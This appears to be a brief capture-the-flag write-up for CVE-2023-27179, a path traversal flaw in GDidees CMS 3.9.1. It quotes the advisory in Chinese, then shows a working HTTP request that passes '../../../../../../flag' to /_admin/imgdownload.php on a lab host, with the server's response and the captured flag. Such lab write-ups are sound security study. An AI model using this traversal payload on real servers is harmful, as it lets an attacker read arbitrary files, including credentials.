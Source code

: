 # CVE-2023-27179

:::info

Tags

- GDidees CMS

官方数据库记录

> GDidees CMS v3.9.1 及更低版本被发现包含通过 /_admin/imgdownload.php 处的文件名参数下载任意文件的漏洞。

:::

```bash
root@jmt-projekt:~# http http://eci-2ze18bprdg5ymu9xzww7.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../../flag
HTTP/1.1 200 OK
Cache-Control: must-revalidate, post-check=0, pre-check=0, public
Connection: keep-alive
Content-Disposition: attachment; filename="flag.png"
Content-Length: 42
Content-Transfer-Encoding: $type\n
Content-Type: application/force-download
Date: Tue, 23 Jul 2024 15:57:00 GMT
Expires: 0
Pragma: no-cache
X-Powered-By: PHP/7.3.33

flag{27daaa6f-9770-4084-8fbe-b02a5a8d451a}
```
